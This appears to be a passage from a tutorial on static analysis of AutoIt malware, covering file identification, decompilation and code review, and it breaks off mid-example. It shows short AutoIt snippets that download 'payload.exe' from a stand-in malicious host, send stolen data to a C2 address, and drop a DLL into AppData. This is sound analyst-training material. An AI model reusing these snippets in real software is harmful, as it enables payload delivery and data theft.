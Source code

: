 
## Static Analysis of AutoIt Malware

Static analysis involves examining the malware without executing it. For AutoIt malware, this typically involves the following steps:

1. **File Identification:** Identifying the file as an AutoIt executable. Tools like PEiD or file command on Linux can help determine if a file is a compiled AutoIt script. These tools look for specific signatures within the file headers.
    
2. **Decompilation:** Compiled AutoIt executables can be decompiled back into their original `.au3` script form using publicly available tools like Au3Stripper or specialized disassemblers. While not always perfect, the decompiled code provides significant insight into the malware's functionality.
    
    - **Example:** Researchers analyzing a sample identified as an AutoIt keylogger might use Au3Stripper to extract the source code. Upon examination, they could find functions like `_IsPressed()`, `Send()`, and file writing operations to a log file, confirming its keylogging capabilities.
        
3. **Code Review:** Once the script is decompiled, the next step is to carefully review the code for suspicious functions and patterns. Key areas of focus include:
    
    - **Network Communication:** Functions like `InetGet()`, `TCPConnect()`, `UDP...()` often indicate communication with a command and control (C2) server for downloading further payloads, exfiltrating data, or receiving instructions.
        
        AutoIt
        
        ```
        ; Example: Downloading a file from a remote server
        $url = "http://malicious.server.com/payload.exe"
        $filePath = @TempDir & "\temp_payload.exe"
        InetGet($url, $filePath)
        
        ; Example: Sending data to a C2 server (simplified)
        ; This would typically involve more complex socket communication
        ; $c2_ip = "192.168.1.100"
        ; $c2_port = 12345
        ; $socket = TCPConnect($c2_ip, $c2_port)
        ; TCPSend($socket, "stolen_data")
        ; TCPClose($socket)
        ```
        
        - **Example:** A report on a ransomware family written in AutoIt might highlight the use of `InetGet()` to download the encryption keys or the ransom note from a remote server.
            
    - **File System Operations:** Functions like `FileWrite()`, `FileRead()`, `FileCopy()`, `FileDelete()`, `DirCreate()`, `Run()` can reveal how the malware interacts with the file system, such as creating persistent files, spreading to other locations, or modifying existing files.
        
        AutoIt
        
        ```
        ; Example: Dropping a malicious file to disk
        $mal_code = "..." ; Binary data or obfuscated script
        $drop_path = @AppDataDir & "\malware.dll"
        FileWrite($drop_path, Binary($mal_code))
        